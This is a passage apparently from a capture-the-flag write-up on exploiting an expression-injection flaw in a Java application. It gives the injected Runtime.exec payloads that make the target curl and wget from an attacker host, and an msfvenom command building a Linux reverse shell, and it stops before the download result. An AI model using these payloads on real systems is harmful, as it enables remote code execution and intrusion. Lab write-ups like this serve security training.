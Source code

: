 - python set up the simple http server

```
python3 -m http.server
```

![](./IMG/36.png)
- Check the connection
Command : 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.10:8000")}

```
Result : 

![](./IMG/37.png)

![](./IMG/38.png)
- Generate the reverse shell 

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=1337 -f elf > rev.elf
```

![](./IMG/39.png)
- Download reverse shell
Command : 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.10.16.10:8000/rev.elf")}

```
Result : 
